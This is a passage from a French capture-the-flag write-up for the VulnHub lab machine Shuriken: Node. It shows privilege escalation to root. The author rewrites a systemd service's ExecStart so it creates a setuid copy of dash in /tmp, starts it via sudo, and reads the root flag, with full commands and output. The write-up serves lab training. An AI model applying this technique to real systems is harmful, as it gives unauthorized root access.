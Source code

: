 Il fait appel au service du même nom qui effectue un simple appel à `df` :

```systemd
[Unit]
Description=Logs system statistics to the systemd journal
Wants=shuriken-auto.timer

[Service]
# Gather system statistics
Type=oneshot
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

Je remplace juste la ligne `ExecStart` de cette façon :

```systemd
ExecStart=/bin/bash -c "cp /bin/dash /tmp/gotroot; chmod 4755 /tmp/gotroot"
```

```bash
serv-adm@shuriken-node:~$ sudo /bin/systemctl start shuriken-auto.timer
serv-adm@shuriken-node:~$ ls -l /tmp/gotroot 
-rwsr-xr-x 1 root root 121432 Nov 14 19:21 /tmp/gotroot
serv-adm@shuriken-node:~$ /tmp/gotroot -p
# id
uid=1000(serv-adm) gid=1000(serv-adm) euid=0(root) groups=1000(serv-adm),24(cdrom)
# cd /root
# ls
root.txt
# cat root.txt


  _________.__                 .__ __                        _______             .___      
 /   _____/|  |__  __ _________|__|  | __ ____   ____   /\   \      \   ____   __| _/____  
 \_____  \ |  |  \|  |  \_  __ \  |  |/ // __ \ /    \  \/   /   |   \ /  _ \ / __ |/ __ \ 
 /        \|   Y  \  |  /|  | \/  |    <\  ___/|   |  \ /\  /    |    (  <_> ) /_/ \  ___/ 
/_______  /|___|  /____/ |__|  |__|__|_ \\___  >___|  / \/  \____|__  /\____/\____ |\___  >
        \/      \/                     \/    \/     \/              \/            \/    \/ 
                                                     ____
eb38a0b907da3d8b630688cb52b1b584                    /   /
                                                   /   /
                      __             .___  ____   /   /                                      
_______  ____   _____/  |_  ____   __| _/  \   \ /   /                                      
\_  __ \/  _ \ /  _ \   __\/ __ \ / __ |    \   Y   /                                       
 |  | \(  <_> |  <_> )  | \  ___// /_/ |     \     /                                        
 |__|   \____/ \____/|__|  \___  >____ |      \___/                                         
                               \/     \/     
=============================
Author: LoneW0lf
=============================
Previous machine in the series:
Shuriken: 1 - https://www.vulnhub.com/entry/shuriken-1,600/
=============================
```

C'était sympa d'exploiter une faille de désérialisation, ça change un peu des scénarios classiques :)

*Publié le 14 novembre 2022*
